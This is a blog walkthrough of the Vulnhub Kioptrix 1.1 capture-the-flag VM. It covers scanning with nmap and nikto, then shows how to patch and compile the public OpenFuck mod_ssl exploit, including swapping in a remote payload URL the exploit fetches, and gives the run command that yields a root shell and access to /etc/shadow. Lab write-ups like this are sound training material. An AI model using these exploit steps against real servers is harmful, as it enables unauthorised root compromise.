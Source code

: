 ```yaml
---
layout: post
title: Vulnhub - Kioptrix 1.1 Walkthrough
tags: [Hacking, Vulnhub, CTF]
---
```

Kioptrix 1.1 is a Boot to Root CTF available [here](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/) on Vulnhub. It's difficulty is rated as Beginner. This write up is the first of a series I will be doing as I complete Abatchy's list of OSCP like Vulnhub VM's. 

The VM and my Kali instance are set up with NAT networking, so to discover the IP address of the VM I run netdiscover

![](/img/kioptrix1-1/netdiscover.png)

Once I obtain the IP, then run a nmap scan and find the following ports: 22, 80, 111, 139, 443 and 1024. 
![](/img/kioptrix1-1/nmap.png)

Visiting the websites on port 80 and 443 reveal just the default apache page. So I decide to run nikto to see if anything can be found.
![](/img/kioptrix1-1/nikto.png)

Nikto reveals something interesting - mod_ssl 2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a reverse shell (OSVDB-756). I give this a google and come across the [OpenFuckV2 exploit](http://www.exploit-db.com/exploits/764/) on ExploitDB. I download the exploit and attempt to compile, however I recieve a number of errors. I decide to again google to see if I can find any clues on compiling this exploit and I come across this [Blog Post](http://paulsec.github.io/blog/2014/04/14/updating-openfuck-exploit/) and this [Reddit Post](https://www.reddit.com/r/HowToHack/comments/5q2rkp/help_compiling_a_c_exploit/). Combining the information from these two sources the process to get the exploit to work is as follows:

#### Add the following headers
{% highlight c %}
# include <openssl/rc4.h>
# include <openssl/md5.h>
{% endhighlight %}

#### Update the wget URL (found via searching for wget) to:
{% highlight c %}
http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
{% endhighlight %}

#### Update variable on line 961 from 
{% highlight c %}
unsigned char *p, *end;
{% endhighlight %}
to this:
{% highlight c %}
const unsigned char *p, *end;
{% endhighlight %}

#### Finally, install the libssl-dev library
{% highlight c %}
apt-get install libssl1.0-dev
{% endhighlight %}

Now I can compile the exploit using:
{% highlight bash %}
gcc -o OpenFuck 764.c -lcrypto
{% endhighlight %}

Running the exploit with no arguments presents the options for the exploit. It requires me to enter the code for the correct operating system and apache version number. From our Nikto scan we know that apache version 1.3.20 is the apache version and that the system is running Red Hat Linux. Looking at the options for the exploit we have two options. The following allowed the exploit to work.

{% highlight bash %}
./OpenFuck 0x6b 192.168.5.130 443 -c 40
{% endhighlight %}

The exploit runs successfully and I can see that I have root access via basic shell. 
![](/img/kioptrix1-1/access.png)

I tried to upgrade my shell by using:
{% highlight bash %}
echo os.system('/bin/bash')
{% endhighlight %}

However, this upgrades my shell as the apache user, so I run the exploit again and keep my root shell. As root I can view the /etc/shadow file and see there are other users, however there is nothing of interest in any of the home directories. Some further snooping, I finally find a email in /var/spool/mail/ and find the 'flag'.

![](/img/kioptrix1-1/flag.png)
